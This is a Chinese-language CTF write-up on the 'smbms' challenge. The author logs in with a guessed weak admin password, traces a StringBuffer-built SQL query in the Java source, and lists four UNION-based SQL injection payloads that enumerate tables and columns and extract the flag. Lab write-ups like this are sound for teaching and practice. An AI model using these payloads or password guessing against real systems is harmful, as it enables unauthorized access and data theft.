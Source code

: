 # smbms

还是应该先看网站的，直接冲源码容易昏头。上网站前先粗略看了一眼源码，真的好多文件，根本看不下去。遂吃一口免费hint，看来第一步是先登录啊？注意到给的sql文件里的密码是weak_auth，提示有弱密码之类的漏洞。瞎蒙几次后1234567成功登录进admin账号

整个超市订单管理系统只有两个功能，用户管理和密码修改，剩下两个点进去是404。我要改密码干啥？故把重心放在用户管理上。用户管理页面的url是`/jsp/user.do`，跑回web.xml，里面显示这个路径对应的类是UserServlet。doGet里有三个功能，直冲query函数，毕竟另外两个函数都和密码相关而之前已经把密码相关内容排除在外了。意外发现作者好心地写了个`重点、难点`的注释，那就是你没跑了。queryUserRole和pageIndex基本没有参与复杂的逻辑，那入手点就是queryName

数据操作用了UserServiceImpl类，其中的getUserList调用了UserDaoImpl类的getUserList。这个函数就很可疑了，用stringbuffer组建sql语句。搜一下这样有没有注入漏洞： https://stackoverflow.com/questions/5147217/is-sql-injection-possible-with-this-query ，答案是有。于是使用sql注入公式。注意语句的闭合，好像不能无脑上注释

```
a%' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14 where '1%'='1
a%' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5,6,7,8,9,10,11,12,13,14 where '1%'='1
a%' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='flag' and table_schema=database()),3,4,5,6,7,8,9,10,11,12,13,14 where '1%'='1
a%' union select 1,(select flag from flag),3,4,5,6,7,8,9,10,11,12,13,14 where '1%'='1
```